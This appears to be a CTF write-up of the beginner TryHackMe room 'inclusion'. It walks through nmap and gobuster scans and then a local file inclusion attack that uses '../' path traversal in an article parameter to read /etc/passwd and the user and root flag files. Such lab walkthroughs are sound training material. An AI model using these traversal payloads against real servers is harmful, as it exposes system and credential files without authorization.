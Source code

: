 ```yaml
---
title: "THM:inclusion"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/inclusion"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,lfi,local-file-inclusion
---
```

# THM:inclusion

URL: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion) [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: "," %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.
>  
> If you have any kind of feedback please reach out to me on twitter at [0xmzfr](https://twitter.com/0xmzfr)

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Running: `gobuster`

Ran the following:
> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/article              (Status: 500) [Size: 290]
```

*See also: [gobuster.log](gobuster.log)*

## Gaining Access

What we discover is there is only one folder on this server (that is `/article`) and as a `name` argument, it seems to take a file name.

So, we go back, back, back up a few directories to see if we can get the web server to print out the contents of other interesting files on the server.

### STEP 1: Find usernames

> http://10.10.110.200/article?name=../../../../etc/passwd

### STEP 2: Get unprivileged user flag

> http://10.10.110.200/article?name=../../../../home/falconfeast/user.txt

### STEP 3: Get root flag

> http://10.10.110.200/article?name=../../../../root/root.txt

By using this technique, we were able to get a value username (`falconfeast`) and read the `user.txt` file, and also step into the `/root` folder to read the `root.txt` file. The contents of those files were the two flags for this room.

## Maintaining Access

We never got direct access to this box, so no access to maintain.

## Clearing Tracks

We never had direct access. Nothing to do.

## Summary

Completed: [2022-01-19 21:50:56]